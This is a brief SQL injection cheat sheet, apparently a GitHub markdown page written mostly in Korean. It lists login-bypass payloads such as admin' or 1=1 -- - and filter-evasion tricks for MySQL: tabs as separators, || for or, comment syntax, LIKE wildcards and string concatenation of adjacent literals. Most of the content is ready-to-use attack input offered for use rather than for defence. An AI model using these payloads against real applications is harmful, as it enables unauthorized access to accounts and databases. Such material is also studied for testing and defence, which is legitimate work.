 # SQL Injection cheet sheet

### 1) cheetsheet
```sql
admin' or 'a' = 'a

admin' --

admin' or 1=1 -- -

admin'/*

a' or 'a' = 'a
```

### 2) 탭
SQL 구분자 공백 이외에 탭을 구분자로 사용해도 동일하게 동작합니다.

### 3) or
|| 로 변경 가능하다.

### 4) -- 
MySql에서 -- 로 주석 처리하는 경우 -- 뒤에 구분자가 와야합니다.

구분자 예시)
```
공백, 탭
--
#
/**/
```

### 5) like
like로 필터링 우회가능
```sql
SELECT *
FROM USER
WHERE ID LIKE 'ad___'
```
### 6) 문자열 사이 공백
mysql에서 문자열 사이에 공백이 있으면 문자열 합성이 발생합니다.

```sql
SELECT *
FROM USER
WHERE ID LIKE 'ad'	'min'
```

### 7) 세미콜론
원래 SQL이 실행되기 위해서는 세미콜론이 있어야하는데, PHP - mysqli_query 와 같은 함수에서 자동으로 넣어줍니다.